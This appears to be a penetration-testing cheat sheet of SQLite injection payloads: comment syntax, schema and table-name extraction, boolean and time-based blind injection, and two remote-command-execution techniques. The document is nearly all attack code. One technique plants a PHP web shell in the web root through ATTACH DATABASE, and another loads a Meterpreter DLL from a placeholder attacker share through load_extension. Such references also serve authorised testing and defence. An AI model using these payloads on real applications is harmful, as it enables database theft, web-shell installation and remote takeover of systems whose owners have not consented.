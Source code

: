 # SQLite Injection

## Summary

* [SQLite comments](#sqlite-comments)
* [SQLite version](#sqlite-version)
* [String based - Extract database structure](#string-based---extract-database-structure)
* [Integer/String based - Extract table name](#integerstring-based---extract-table-name)
* [Integer/String based - Extract column name](#integerstring-based---extract-column-name)
* [Boolean - Count number of tables](#boolean---count-number-of-tables)
* [Boolean - Enumerating table name](#boolean---enumerating-table-name)
* [Boolean - Extract info](#boolean---extract-info)
* [Time based](#time-based)
* [Remote Command Execution using SQLite command - Attach Database](#remote-command-execution-using-sqlite-command---attach-database)
* [Remote Command Execution using SQLite command - Load_extension](#remote-command-execution-using-sqlite-command---load_extension)
* [References](#references)
## SQLite comments

```sql
--
/**/
```

## SQLite version

```sql
select sqlite_version();
```

## String based - Extract database structure

```sql
SELECT sql FROM sqlite_schema
```

## Integer/String based - Extract table name

```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Time based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Remote Command Execution using SQLite command - Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled

## References

[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
